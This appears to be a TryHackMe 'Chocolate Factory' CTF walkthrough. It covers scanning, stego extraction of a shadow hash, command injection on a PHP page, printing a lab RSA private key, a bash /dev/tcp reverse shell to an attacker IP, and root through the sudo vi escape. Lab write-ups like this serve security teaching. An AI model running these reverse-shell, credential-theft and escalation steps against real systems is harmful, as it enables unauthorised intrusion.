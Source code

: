 # Chocolate Factory themed CTF writeup | Tryhackme.com



First scan the machine with nmap:
nmap -A -T5 -v <**ip**>

![nmap1](https://github.com/varkolyd/ctf_writeups/blob/main/THM%20-%20Chocolate%20Factory/Images/nmap1.png)

![nmap1](https://github.com/varkolyd/ctf_writeups/blob/main/THM%20-%20Chocolate%20Factory/Images/nmap2.png)  

The open ports:

- 21 - ftp
- 22 - ssh
- 80 - http 
- 100, 106, 109, 110, 111, 113, 119, 125 - these TCP ports display the same banner.

Anonymous FTP login is allowed so let’s try that and see what we find

![ftp](https://github.com/varkolyd/ctf_writeups/blob/main/THM%20-%20Chocolate%20Factory/Images/ftp.png)

Download gum_room.jpg to our machine. Maybe there is something hidden behind this picture. 
We can find it out with steghide.

Use: steghide extract -sf <**file**>

![steghide](https://github.com/varkolyd/ctf_writeups/blob/main/THM%20-%20Chocolate%20Factory/Images/steghide.png)

The txt seems to be a base64 encoded text so let’s decode it in the terminal\
` cat b64.txt | base64 -d `

It seems to be an etc/shadow file and there is a user named charlie\
*charlie:$6$CZJnCPeQWp9/jpNx$khGlFdICJnr8R3JC/jTR2r7DrbFLp8zq8469d3c0.zuKN4se61FObwWGxcHZqO2RJHkkL1jjPYeeGyIJWE82X/:18535:0:99999:7:::*


Let’s find the subdomains using gobuster\
`gobuster dir -u http://<ip>/ -w /usr/share/dirb/wordlists/common.txt -x php,html,sh,txt`

![gobuster](https://github.com/varkolyd/ctf_writeups/blob/main/THM%20-%20Chocolate%20Factory/Images/gobuster1.png)

First check out **Index.html**. \ **Home.php** also seems interesting, let’s navigate there aswell.

Index.html is a login page, let’s see the source code.
![index](https://github.com/varkolyd/ctf_writeups/blob/main/THM%20-%20Chocolate%20Factory/Images/website_indexhtml.png)

Index.html is a login page, let’s see the source code.

![src_code](https://github.com/varkolyd/ctf_writeups/blob/main/THM%20-%20Chocolate%20Factory/Images/source_code.png)

**Validate.php:**

<script>alert('Incorrect Credentials');</script><script>window.location='index.html'</script>
Validate


Now to the interesting part: **home.php**

![homephp](https://github.com/varkolyd/ctf_writeups/blob/main/THM%20-%20Chocolate%20Factory/Images/homephp.png)

There is a command injection page in here. Let’s try a few

`ls:`

    home.jpg home.php image.png index.html index.php.bak key_rev_key validate.php 

    So there is a key in this directory. Let’s see what it has.

`cat key_rev_key`

    copy it and echo to terminal to see it better 

    Enter your name: %slaksdhfas congratulations you have found the key: b'-VkgXhFf6sAEcAwrC6YR-SZbiuSb8ABXeQuvhcGSQzY=' Keep its safeBad name!

    See other directories aswell.

`pwd:`

    /var/www/html

`ls /home`

    user named charlie

`ls /home/charlie`

    teleport teleport.pub user.txt

user.txt is not readable
teleport.pub is the ssh public key and teleport is the private key


`cat /home/charlie/teleport`


-----BEGIN RSA PRIVATE KEY----- MIIEowIBAAKCAQEA4adrPc3Uh98RYDrZ8CUBDgWLENUybF60lMk9YQOBDR+gpuRW 1AzL12K35/Mi3Vwtp0NSwmlS7ha4y9sv2kPXv8lFOmLi1FV2hqlQPLw/unnEFwUb L4KBqBemIDefV5pxMmCqqguJXIkzklAIXNYhfxLr8cBS/HJoh/7qmLqrDoXNhwYj B3zgov7RUtk15Jv11D0Itsyr54pvYhCQgdoorU7l42EZJayIomHKon1jkofd1/oY fOBwgz6JOlNH1jFJoyIZg2OmEhnSjUltZ9mSzmQyv3M4AORQo3ZeLb+zbnSJycEE RaObPlb0dRy3KoN79lt+dh+jSg/dM/TYYe5L4wIDAQABAoIBAD2TzjQDYyfgu4Ej Di32Kx+Ea7qgMy5XebfQYquCpUjLhK+GSBt9knKoQb9OHgmCCgNG3+Klkzfdg3g9 zAUn1kxDxFx2d6ex2rJMqdSpGkrsx5HwlsaUOoWATpkkFJt3TcSNlITquQVDe4tF w8JxvJpMs445CWxSXCwgaCxdZCiF33C0CtVw6zvOdF6MoOimVZf36UkXI2FmdZFl kR7MGsagAwRn1moCvQ7lNpYcqDDNf6jKnx5Sk83R5bVAAjV6ktZ9uEN8NItM/ppZ j4PM6/IIPw2jQ8WzUoi/JG7aXJnBE4bm53qo2B4oVu3PihZ7tKkLZq3Oclrrkbn2 EY0ndcECgYEA/29MMD3FEYcMCy+KQfEU2h9manqQmRMDDaBHkajq20KvGvnT1U/T RcbPNBaQMoSj6YrVhvgy3xtEdEHHBJO5qnq8TsLaSovQZxDifaGTaLaWgswc0biF uAKE2uKcpVCTSewbJyNewwTljhV9mMyn/piAtRlGXkzeyZ9/muZdtesCgYEA4idA KuEj2FE7M+MM/+ZeiZvLjKSNbiYYUPuDcsoWYxQCp0q8HmtjyAQizKo6DlXIPCCQ RZSvmU1T3nk9MoTgDjkNO1xxbF2N7ihnBkHjOffod+zkNQbvzIDa4Q2owpeHZL19 znQV98mrRaYDb5YsaEj0YoKfb8xhZJPyEb+v6+kCgYAZwE+vAVsvtCyrqARJN5PB la7Oh0Kym+8P3Zu5fI0Iw8VBc/Q+KgkDnNJgzvGElkisD7oNHFKMmYQiMEtvE7GB FVSMoCo/n67H5TTgM3zX7qhn0UoKfo7EiUR5iKUAKYpfxnTKUk+IW6ME2vfJgsBg 82DuYPjuItPHAdRselLyNwKBgH77Rv5Ml9HYGoPR0vTEpwRhI/N+WaMlZLXj4zTK 37MWAz9nqSTza31dRSTh1+NAq0OHjTpkeAx97L+YF5KMJToXMqTIDS+pgA3fRamv ySQ9XJwpuSFFGdQb7co73ywT5QPdmgwYBlWxOKfMxVUcXybW/9FoQpmFipHsuBjb Jq4xAoGBAIQnMPLpKqBk/ZV+HXmdJYSrf2MACWwL4pQO9bQUeta0rZA6iQwvLrkM Qxg3lN2/1dnebKK5lEd2qFP1WLQUJqypo5TznXQ7tv0Uuw7o0cy5XNMFVwn/BqQm G2QwOAGbsQHcI0P19XgHTOB7Dm69rP9j1wIRBOF7iGfwhWdi+vln
 -----END RSA PRIVATE KEY-----\


Let’s save it to a txt file.
The format is bad, can’t decrypt with john and can’t connect to ssh so let’s find an alternative way, if we don’t want to spend time finding the right format.


**Alternative way: Reverse shell**

on attacker machine
`nc -nvlp 4444`

on webserver’s command line
`bash -c 'exec bash -i &>/dev/tcp/{IP}/4444 <&1'`

![revshell](https://github.com/varkolyd/ctf_writeups/blob/main/THM%20-%20Chocolate%20Factory/Images/revshell.png)

And the reverse shell is spawned

![revshell2](https://github.com/varkolyd/ctf_writeups/blob/main/THM%20-%20Chocolate%20Factory/Images/revshell2.png)

`ls`

let’s cat all the files

`cat validate.php`

    <?php
        $uname=$_POST['uname'];
        $password=$_POST['password'];
        if($uname=="charlie" && $password=="cn7824"){
            echo "<script>window.location='home.php'</script>";
        }
        else{
            echo "<script>alert('Incorrect Credentials');</script>";
            echo "<script>window.location='index.html'</script>";
        }

Fantastic! We have found the PW.

Now get the ssh private key file, formatted well and give it read-write permission.

`chmod 600 charlie_rsa_id`

The RSA hash is not a passphrase encrypted rsa so we can connect to ssh without a password:

![ssh](https://github.com/varkolyd/ctf_writeups/blob/main/THM%20-%20Chocolate%20Factory/Images/ssh%20to%20charlie.png)

We are now user Charlie.
First of all, let's try `sudo -l`

![sudo l](https://github.com/varkolyd/ctf_writeups/blob/main/THM%20-%20Chocolate%20Factory/Images/sudo%20-l.png)

We got lucky there. It seems that the ‘vi’ binary has root permissions.

Use the vi oneliner from gtfobins:

`sudo vi -c ':!/bin/sh' /dev/null`

![root](https://github.com/varkolyd/ctf_writeups/blob/main/THM%20-%20Chocolate%20Factory/Images/root.png)

check this root.py 
`cat root.py`

    ‘’’
    from cryptography.fernet import Fernet
    import pyfiglet
    key=input("Enter the key:  ")
    f=Fernet(key)
    encrypted_mess= 'gAAAAABfdb52eejIlEaE9ttPY8ckMMfHTIw5lamAWMy8yEdGPhnm9_H_yQikhR-bPy09-NVQn8lF_PDXyTo-T7CpmrFfoVRWzlm0OffAsUM7KIO_xbIQkQojwf_unpPAAKyJQDHNvQaJ'
    dcrypt_mess=f.decrypt(encrypted_mess)
    mess=dcrypt_mess.decode()
    display1=pyfiglet.figlet_format("You Are Now The Owner Of ")
    display2=pyfiglet.figlet_format("Chocolate Factory ")
    print(display1)
    print(display2)
    print(mess)#
    ‘’’

Finally run it with python

`python root.py`

It asks for the key, so let’s try the key we found in key_rev_key

![sudo l](https://github.com/varkolyd/ctf_writeups/blob/main/THM%20-%20Chocolate%20Factory/Images/root%20flag.png)

##### author: Dániel Varkoly
